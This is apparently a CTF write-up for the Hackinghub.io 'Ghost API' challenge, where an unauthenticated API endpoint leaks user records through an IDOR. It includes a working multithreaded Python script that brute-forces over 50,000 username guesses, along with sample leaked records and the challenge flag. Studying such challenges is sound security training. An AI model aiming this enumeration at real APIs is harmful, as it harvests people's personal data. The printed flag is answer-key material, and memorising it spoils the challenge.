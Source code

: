 ```yaml
---
author: clausmalver
title: Hackinghub.io - Ghost API
description: 
date: 2025-04-08
categories: [CTF]
tags: [CTF, Hackinghub.io]
---
```


# Ghost API writeup from hackinghub.io
For this CTF challenge, we are given the endpoint `https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/jrodriguez75` please note that the endpoint might difer from mine from the instance spawned. The objective is to leak confidential information from the API. There is no authorization required to access it, making it a textbook case of an IDOR (Insecure Direct Object Reference). If you want to know more about IDOR vulnerabilities you can check this out: [OWASP IDOR Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)

From the challenge description, we are expected to enumerate possible usernames stored in the database.
---
**The application's API is vulnerable to an IDOR that exposes sensitive user information. However, there's a twist — you'll need to understand the pattern behind how usernames are generated to fully exploit this vulnerability. Can you decipher the username creation logic and access the hidden information?**

**An example username might be: `jrodriguez75`**
---
When visiting the endpoint, the output looks like this:

```json
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "jrodriguez75",
    "nombre": "J",
    "apellido": "Rodriguez",
    "correo_electronico": "jrodriguez75@ejemplo.com",
    "edad": 50,
    "telefono": "+34 693 741 885",
    "direccion": "Plaza del Sol 45, 28801",
    "carnet_identidad": "82980065K",
    "ciudad": "Ciudad de México"
  }
}
```
From this, we can infer that the username format follows a common Hispanic surname, with a lowercase letter in front and potentially a number at the end.
We want to try all possible combinations using:

- A single lowercase letter in front of the surname
- The surname itself
- Optionally, a number from 0 to 99 appended at the end

This gives us a pattern like: `{a..z}{surname}{0..99 | nothing}`

To automate this, I asked ChatGPT to write a Python script that generates these permutations and checks each one. I also added multithreading since there are over 50,000 combinations to try.

```python
import requests
import string
import json
import logging
from concurrent.futures import ThreadPoolExecutor, as_completed

# Logging setup
logging.basicConfig(
    filename="output.log",
    filemode="a",
    format="%(message)s",
    level=logging.INFO
)

# Top 20 common Hispanic surnames
surnames = [
    "garcia", "rodriguez", "martinez", "hernandez", "lopez",
    "gonzalez", "perez", "sanchez", "ramirez", "torres",
    "flores", "rivera", "gomez", "diaz", "reyes",
    "cruz", "morales", "ortiz", "gutierrez", "ramos"
]

base_url = "https://z5dgz12o.eu2.ctfio.com/api/userInfo/showUserDetails/"
MAX_THREADS = 20

# Generate all username permutations
usernames = []
for letter in string.ascii_lowercase:
    for surname in surnames:
        usernames.append(f"{letter}{surname}")
        for i in range(100):
            usernames.append(f"{letter}{surname}{i}")

def check_username(username):
    url = f"{base_url}{username}"
    try:
        r = requests.get(url, timeout=5)
        if r.status_code == 200:
            try:
                data = r.json()
                pretty = json.dumps(data, indent=2)
                log_entry = f"[+] {username} -> {url}\n{pretty}\n"
            except json.JSONDecodeError:
                log_entry = f"[+] {username} -> {url}\n[!] Non-JSON Response:\n{r.text}\n"

            print(log_entry)  # Print to console
            logging.info(log_entry)  # Save to log file

    except:
        pass

# Multithreaded execution
if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
        futures = [executor.submit(check_username, user) for user in usernames]
        for _ in as_completed(futures):
            pass
```
After a short amount of time, the flag appears in the terminal output:

```json
{
  "estado": "éxito",
  "datos": {
    "nombre_usuario": "cgarcia",
    "nombre": "C",
    "apellido": "Garcia",
    "correo_electronico": "cgarcia@ejemplo.com",
    "edad": 21,
    "telefono": "+34 610 915 022",
    "direccion": "Plaza del Sol 28, 28773",
    "carnet_identidad": "29367700N",
    "ciudad": "Lima",
    "flag": "flag{9c9b9206bc76e06c6efd87fe80cfb310}"
  }
}
```
**Flag**: `flag{9c9b9206bc76e06c6efd87fe80cfb310}`

If you wan't to know more about this challenge and the real world bug bounty it comes from, you can see [NahamSec's video about it on Youtube](https://www.youtube.com/watch?v=Cw-hlmW89kA&t)
